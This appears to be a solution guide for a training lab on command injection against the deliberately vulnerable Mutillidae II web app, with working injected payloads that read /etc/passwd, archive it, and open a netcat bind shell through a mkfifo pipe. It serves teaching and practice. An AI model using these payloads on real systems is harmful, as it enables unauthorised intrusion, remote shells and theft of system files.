 ## Solution Guide: Command Injection

In this activity, you performed a command injection chaining attack. This kind of practice will help you better understand the attack process so you can be better prepared to defend against it. 

---

Launch the following environments:

- Attacker: Kali Linux
   - Username: `root`
   - Password: `toor`

- Vulnerable Web Server: owaspbwa
   - Mutillidae II


1. In the owaspbwa machine, identify the local IP:

   - Run `ifconfig` to retrieve the local IP of the owaspbwa VM. Or, find the IP from the welcome message in the terminal window of the owaspbwa machine.

2. In Kali, open Firefox and type the IP of the owaspbwa VM into the URL. Navigate to the DNS Lookup page:

   - OWASP 2013 > A1 Injection Other > Command Injection > Other > DNS Lookup

   - Set security level to **Hosed**.

3. Enter the following command to reveal the contents of the `/etc/passwd` file in the **Hostname/IP** box:

   -  `172.16.203.141; cat /etc/passwd`

4. Enter the following command to create a file called `hack.txt` that contains the contents of the `/etc/passwd` file, and then archive and compress it:
   
   - `172.16.203.141; cat /etc/passwd > /tmp/hack.txt; tar czf /tmp/hack.txt.gz /tmp/hack.txt`
   
#### Bonus

Navigate to owaspbwa (the vulnerable web server) > Mutillidae II > OWASP 2013 > A1 Injection (Other) > Command Injection > DNS Lookup

Use the following steps to perform a command injection that allows you to exfiltrate a list of users from the vulnerable web server (owaspbwa) to the attacker's machine (Kali) in a test file named `hacked.txt`.

   - Establish a listener on the vulnerable web server: 
   
       - `172.16.203.141;mkfifo /tmp/pipe;sh /tmp/pipe | nc -l 4444 > /tmp/pipe`
   
   - In the terminal, type the command that connects to the listener on the web server.
   
       - `nc 172.16.203.141 4444`
   
   - Type the command that copies the `/etc/passwd` into a text document called `hacked.txt`.
   
       - `cat /etc/passwd > /tmp/hacked.txt`
   
   - Type the command that reads the contents of `hacked.txt`.
   
       - `cat /tmp/hacked.txt`
   
   What results were returned?
   
   - The contents of the `/etc/passwd` file.

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.  
